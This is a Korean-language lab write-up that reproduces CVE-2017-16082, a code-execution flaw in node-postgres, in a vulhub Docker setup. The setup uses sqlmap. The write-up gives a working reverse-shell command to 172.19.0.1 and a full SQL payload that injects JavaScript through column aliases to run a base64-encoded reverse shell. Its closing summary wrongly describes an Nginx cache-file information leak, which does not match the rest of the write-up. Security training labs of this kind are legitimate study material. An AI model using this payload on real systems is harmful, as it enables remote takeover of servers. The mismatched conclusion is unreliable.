

# CVE-2017-16082

**Contributors**

-   [신지연(@jiyeondu)](https://github.com/jiyeondu)

<br/>

### 보안 취약점

-   node-postgres는 Node.js 어플리케이션과 PostgreSQL 데이터베이스 간의 상호 작용을 도와주는 라이브러리(드라이버)이다. 이 드라이버를 사용하면 Node.js 어플리케이션에서 PostgreSQL 데이터베이스에 연결하고 데이터를 쿼리하거나 수정할 수 있다. 
-   node-postgres는 PostgreSQL 데이터베이스에서 반환된 Row Description (행 설명) 유형의 응답 패키지를 처리할 때, 필드 이름을 코드에 직접 연결함. 
-   만약 row description에서 제공하는 열 이름이 사용자 입력에 기반하여 동적으로 생성되고, 쿼리에 직접 삽입된다면 SQL인젝션 공격이 가능하다. 

<br/>

### 환경구성 및 실행

#### 기본 환경 구성
-   가상머신 설치 (기존에 있던 ubuntu 20.04에서 진행)
-   `apt-get install sqlmap -y`을 실행하여 sqlmap 설치
-   `sudo systemctl status docker` 를 실행하여 docker 운행여부 확인.
-   `git clone https://github.com/vulhub/vulhub.git` vulhub 레포 로컬에 복사
-   `docker compose build`
-   `docker compose up -d`를 실행하여 테스트 환경을 실행함.


#### 컴파일 및 실행
-   `http://your-ip:3000/?id=1`에 접속하여 id1의 사용자 정보를 확인.  
-   sqlmap을 사용하여 여기에 삽입점이 있음을 발견할 수 있으며, 데이터베이스가 PostgreSQL임을 알 수 있다.




-   node-postgres의 코드 실행 취약점이 있을 가능성이 있다. 
-   `echo bash -i >& /dev/tcp/172.19.0.1/21 0>&1|base64 -d|bash`와 같은 명령을 작성한 다음, 적절히 분할하여 각 세그먼트의 길이가 64 문자를 초과하지 않도록 만든 다음

```
SELECT 1 AS "\']=0;require=process.mainModule.constructor._load;/*", 2 AS "*/p=require(`child_process`);/*", 3 AS "*/p.exec(`echo YmFzaCAtaSA+JiAvZGV2L3Rj`+/*", 4 AS "*/`cC8xNzIuMTkuMC4xLzIxIDA+JjE=|base64 -d|bash`)//"
```


-   리버스 쉘


<br/>

### 정리

-   이 취약점은 공격자가 Nginx 서버의 캐시 파일에서 예상치 못한 데이터를 읽을 수 있게 만들어, 정보 유출의 위험이 있음. 안전한 웹 서비스 운영을 위해서는 이러한 취약점을 주기적으로 확인하고 패치하는 것이 중요함.


